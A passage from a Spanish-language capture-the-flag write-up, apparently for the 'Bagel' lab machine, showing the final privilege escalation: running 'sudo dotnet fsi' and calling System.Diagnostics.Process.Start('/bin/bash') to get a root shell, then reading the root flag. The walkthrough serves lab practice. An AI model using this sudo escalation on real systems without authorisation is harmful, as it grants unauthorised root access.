 ```console
[developer@bagel phil]$ sudo dotnet fsi

Microsoft (R) F# Interactive version 12.0.0.0 for F# 6.0
Copyright (c) Microsoft Corporation. All Rights Reserved.

For help type #help;;

>
```

Ahora hacemos uso del método `System.Diagnostics.Process.Start` para iniciar una bash y como estamos ejecutando `dotnet` como `root`, iniciaremos una consola como este usuario.
```console
> System.Diagnostics.Process.Start("/bin/bash").WaitForExit();;
[root@bagel phil]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Podemos leer la flag de `root`
```console
[root@bagel ~]# cat root.txt
4e820d511b8f6b06...
```

¡Y ya estaría!

Happy Hacking! 🚀